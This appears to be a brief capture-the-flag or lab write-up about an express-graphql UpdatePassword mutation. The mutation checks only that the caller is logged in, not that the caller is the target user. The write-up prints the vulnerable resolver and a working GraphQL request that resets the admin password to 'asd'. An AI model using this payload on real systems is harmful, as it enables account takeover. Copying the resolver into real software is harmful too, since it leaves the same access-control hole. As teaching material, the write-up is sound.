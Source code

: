 This application uses `express-graphql`, and defines the falowing mutation
```js
...
UpdatePassword: {
    type: ResponseType,
    args: {
        username: { type: new GraphQLNonNull(GraphQLString) },
        password: { type: new GraphQLNonNull(GraphQLString) }
    },
    resolve: async (root, args, request) => {
        return new Promise((resolve, reject) => {
            if (!request.user) return reject(new GraphQLError('Authentication required!'));

            db.updatePassword(args.username, args.password)
                .then(() => resolve(response("Password updated successfully!")))
                .catch(err => reject(new GraphQLError(err)));
        });
    }
},
...
```
Since it's checked only if the requesting user is logged in and not the same as the target user, and the old password is not requiered, a request can be made to chenge the password of the admin
```json
{
    "query":"mutation($username:String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message } }",
    "variables":{
        "username":"admin",
        "password":"asd"
    }
}
```
